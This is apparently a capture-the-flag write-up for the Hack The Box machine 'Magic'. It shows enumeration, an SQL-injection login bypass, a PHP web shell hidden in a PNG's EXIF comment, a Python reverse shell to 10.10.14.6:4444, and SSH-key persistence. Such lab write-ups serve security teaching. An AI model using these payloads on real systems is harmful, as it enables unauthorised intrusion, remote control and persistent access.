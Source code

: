 # Recon
```
sudo nmap -sV -p- -sC -oN nmap.txt -O 10.10.10.185 -T5
```
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Magic/assets/1.png">

We discover two open ports and see that the target is running Linux. Browsing to the webserver on port 80 shows us an image upload page. We can try to gain initial foothold by uploading a reverse script. This will brobably be blocked by a filter but we can try to bypass this.

# Enumeration
We find a link to a login page. Let's first try to run gobuster in an attempt to find folders and files which could lead us to usernames and other info. We also check to see if there's a robots.txt file which can contain usefull folders.

We'll run two gobuster scans. One for file discovery and one for folders.
```
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/big.txt -u http://10.10.10.185 -x txt
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://10.10.10.185
```
Other than three folders (```/assets /images /server-status```) we don't find anything interesting.

Because we will probably try to upload shell code to our target for initial access it is important to know where the files will be uploaded. Therefor we will run another gobuster scan on the ```/images``` directory.

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Magic/assets/8.png">

We've found an ```/uploads``` folder. This might be usefull later on.

# Initial Foothold
 Next we'll try some default usernames and passwords but without any luck. One thing we didn't try was if we could use SQL injection to bypass the login screen. That seems to work as we are now logged in and able to upload images.

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Magic/assets/2.png">

There is a filter blocking other filetypes than JPG, JPEG and PNG files. Let's fire up BurpSuite to see if we can intercept the request and change it to our liking. Let's rename a JPEG file to .jpeg.php and intercept the request. We did the exact same thing earlier on the Popcorn box.

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Magic/assets/4.png">

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Magic/assets/3.png">

That didn't seem to work because there is another filter blocking our attempt. This will probably be a check for file signatures. These signatures are known as magic numbers or Magic Bytes. For PNG files these are ```89 50 4E 47 0D 0A 1A 0A```. We can however add some code to a genuine PNG file in an attempt to bypass this signature filter.

We well use ```exiftools``` for this:
```
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' exploit.php.png 
```
The file was successfully uploaded. We can now try to see if we can run commands by browsing to it's location and a simple ```list``` command. We know this locations because of the earlier found ```/uploads``` directory.

```
http://10.10.10.185/images/uploads/exploit.php.png?cmd=ls
```

That worked!

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Magic/assets/5.png">

We can now alter the command to spawn a reverse shell. We'll use the code from the PayloadAllTheThings repo. https://github.com/swisskyrepo/PayloadsAllTheThings

```
http://10.10.10.185/images/uploads/exploit.php.png?cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.6",4444))](http://10.10.10.185/images/uploads/exploit.php.png?cmd=python3%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.10.14.6%22,4444));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27)
```
With our listener ready on port 4444 we now have a low priviliged reverse shell:

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Magic/assets/6.png">

# Lateral Movement
We spawn a TTY shell using Python3:
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm

Press ctrl+z key combination 

stty raw -echo; fg
``` 

We'll look around for files with SUID set, cron jobs, kernel version, running processes but nothing stands out here. While looking around our webserver folders we discover a file containing database login credentials.

```
/var/www/Magic/db.php5
```
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Magic/assets/7.png">

We can try to connect to the MySQL database using ```mysql``` but it isn't installed on the target. Another tool we can use is ```mysqldump```, which is installed.

Running the following code will iterate the tables in the database. We run into an access denied error but are able to view the content of the login table. This contains a password. We try if this is the password for the theseus account which seems to be the case.

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Magic/assets/10.png">

```
su theseus
```
We are now able to grab the user.txt file in the homefolder of theseus.


# Persistent Access
For a more persistent access to the target we'll setup SSH by making a RSA keypair. On attacking machine:
```
ssh-keygen
mv id_rsa.pub authorized_keys
python -m SimpleHTTPServer 8000
```
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Magic/assets/11.png">

Now download the keys on the target:
```
wget http://10.10.14.6:8000/authorized_keys
```
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Magic/assets/12.png">

We have now added our public key to the authorized_Keys of ```theseus``` and are able to connect with SSH to our target.

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Magic/assets/13.png">

# Privilege Escalation
We'll now repeat our previous steps to discover anything usefull. We find an interesting binary that has the SUID set.

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Magic/assets/14.png">

Running ```strings``` on the binary shows us that ```lhsw``` and ```fdisk``` are being run. We can change the execute path of the binary and create one of our one to get a shell with root privileges.

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Magic/assets/15.png">



<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Magic/assets/16.png">




